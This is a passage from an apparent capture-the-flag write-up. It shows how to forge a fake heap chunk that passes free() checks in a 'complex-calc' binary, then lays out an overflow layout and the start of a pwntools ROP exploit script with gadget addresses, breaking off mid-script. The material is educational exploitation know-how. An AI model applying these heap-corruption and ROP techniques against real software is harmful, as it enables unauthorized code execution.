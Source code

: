 

Remember in order to pass the first check, the second lowest bit of `toatal_size` must be set, meaning that we must set `total_size` equal to `0x552`. However this bit is removed when `chunksize` is ran, so we don't need to worry about it with what we've done so far. Now that we know what `add_input0` and `add_result` should be, we can figure out what `add_input1` has to be:

```
0xa80 + add_input1 = 0x582
add_input1 = 0x582 - 0xa80
add_input1 = -0x4fe
```

So we know what the inputs we have to give the `adds` function are to make to fake chunk. Keep in mind that in order for our input to be read properly by `free`, the pointer we must give it is `0x6c4ac0`.  We can see that in gdb.

```
   0x4156e9 <free+25>:	mov    rax,QWORD PTR [rdi-0x8]
   0x4156ed <free+29>:	lea    rsi,[rdi-0x10]
   => 0x4156f1 <free+33>:	test   al,0x2
   0x4156f3 <free+35>:	jne    0x415718 <free+72>
```

and when we see what is at those locations:
```
gdb-peda$ p $rdi
$9 = 0x6c4ac0
gdb-peda$ p $rdi-0x8
$10 = 0x6c4ab8
gdb-peda$ p $rdi-0x10
$11 = 0x6c4ab0
```

Keep in mind the same thing (with different inputs, of course) would work with the `subs` function. In the writeup that this writeup is based off of, they use `subs` instead of `adds`.

#Exploit

So now that we know how to pass a false pointer to `free` and not have the program crash, we can just reuse the same ROP Chain and exploit from `simple-calc`. Here is a high level overview of what our exploit will look like:

```
48 bytes of 0x0
address of false pointer which will be passed to free, 0x6c4a90
20 more bytes of 0x0 to reach the return address
ROP Chain
```

Of course, before we exit we will need to use the `adds` function to write the needed values into the `bss` segment, so the false pointer we pass to `free` will have the data it needs to pass it. With that, we can write our exploit (this one is cleaner than the one I wrote for `simple-calculator`):

```
#Import pwntools
from pwn import *

#Start the target process, attach gd
target = process('./complex-calc')
#gdb.attach(target, gdbscript = 'b *0x401551\nb *0x401556')

#Declare the ROP Gadgets
pop_rdi = 0x401b73
pop_rsi = 0x401c87
pop_rax = 0x44db34
pop_rdx = 0x437a85
write_gadget = 0x44526e

#Declare the other things which will be used in the ROP Chain
syscall = 0x400488
```
